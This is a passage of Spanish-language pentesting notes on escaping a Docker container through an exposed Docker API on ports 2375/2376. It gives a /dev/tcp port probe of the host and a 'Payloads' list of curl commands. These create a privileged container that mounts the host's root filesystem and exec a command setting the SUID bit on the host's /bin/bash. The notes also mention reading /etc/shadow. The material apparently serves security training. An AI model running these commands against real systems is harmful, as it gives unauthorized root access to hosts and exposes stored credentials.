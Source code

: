 ### Y por ultimo recargamos el demonio  *systemctl daemon-reload* y restartiamos el servicio de docker *systemctl restart docker.service*. 

### Una vez que tengamos la API corriendo ya podríamos probar esto de manera local. 

### Cuando ganamos acceso a un contenedor y probamos diversas maneras de intentar escapar del contenedor, tal vez ninguna de las anteriores den resultado. Por lo que podríamos verificar si el puerto 2375 o 2376 esta abierto en lo que sería la maquina host.

### Por ejemplo, si somos la máquina **172.17.0.2** intuimos que la máquina host es la **0.1** por lo que podríamos verificar si uno de los puertos anteriores está abierto.

```bash
echo '' > /dev/tcp/172.17.0.1/2375 

echo $? 
```

### Si no vemos respuesta alguna en la consola y al ejecutar **echo $?** vemos que el código de estado es un 0, quiere decir que el puerto esta abierto, por lo que muy probablemente este corriendo docker. En este caso, podríamos realizar el proceso de enumeración y creación de contenedores haciendo uso de páginas como [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker). 

# Payloads: 

- ### **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- ### **Listar imágenes  desde consola con CURL usando la API:** `curl http://{ip}:2375/images/json | jq`
- ### **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- ### **Crear un container** `curl  -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/create?name={container_name} -d '{"Image":"{image_name}", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt/root" ], "Privileged": true}'` (Esto nos devolverá un ID_container)
- ### **Startear el container creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/start?name={container_name}`
- ### **Crear ejecución de un comando:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/root/bin/bash"]}'` (Esto nos devolverá un ID_command y en caso de que el comando que querramos ejecutar sea algo lo cual nos tenga que mostrar output como un cat al /etc/shadow deberíamos agregar un `--ouput -`)
- ### **Ejecutar el comando creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/exec/{ID_command}/start -d '{}'` 
